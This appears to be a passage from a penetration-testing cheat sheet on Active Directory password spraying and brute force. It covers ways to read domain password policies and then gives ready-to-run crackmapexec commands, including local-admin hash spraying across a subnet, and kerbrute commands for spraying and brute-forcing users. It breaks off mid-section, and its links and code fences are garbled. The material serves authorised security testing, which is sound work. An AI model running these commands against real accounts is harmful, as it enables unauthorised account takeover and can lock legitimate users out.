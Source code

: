 # Password Spraying / Brute Force



## **Password Spraying**

Once you have found several **valid usernames** you can try the most **common passwords** (keep in mind the password policy of the environment) with each of the discovered users.\
By **default** the **minimum** **password** **length** is **7**.

Lists of common usernames could also be useful: [[https://github.com/insidetrust/statistically-likely-usernames|https://github.com/insidetrust/statistically-likely-usernames]]

Notice that you **could lockout some accounts if you try several wrong passwords** (by default more than 10).

### Get password policy

If you have some user credentials or a shell as a domain user you can **get the password policy with**:

```bash
# From Linux
crackmapexec <IP> -u 'user' -p 'password' --pass-pol

enum4linux -u 'username' -p 'password' -P <IP>

rpcclient -U "" -N 10.10.10.10;
rpcclient $>querydominfo

ldapsearch -h 10.10.10.10 -x -b "DC=DOMAIN_NAME,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength

# From Windows
net accounts

(Get-DomainPolicy)."SystemAccess" #From powerview
```
```
### Exploitation from Linux (or all)

- Using **crackmapexec:**

```bash
crackmapexec smb <IP> -u users.txt -p passwords.txt
# Local Auth Spray (once you found some local admin pass or hash)
## --local-auth flag indicate to only try 1 time per machine
crackmapexec smb --local-auth 10.10.10.10/23 -u administrator -H 10298e182387f9cab376ecd08491764a0 | grep +
```
```
- Using [[https://github.com/ropnop/kerbrute) (Go|**kerbrute**]]

```bash
# Password Spraying
./kerbrute_linux_amd64 passwordspray -d lab.ropnop.com [--dc 10.10.10.10] domain_users.txt Password123
# Brute-Force
./kerbrute_linux_amd64 bruteuser -d lab.ropnop.com [--dc 10.10.10.10] passwords.lst thoffman
```
```
- [[https://github.com/Greenwolf/Spray) _**(you can indicate number of attempts to avoid lockouts|**spray**]]:**_

```bash
```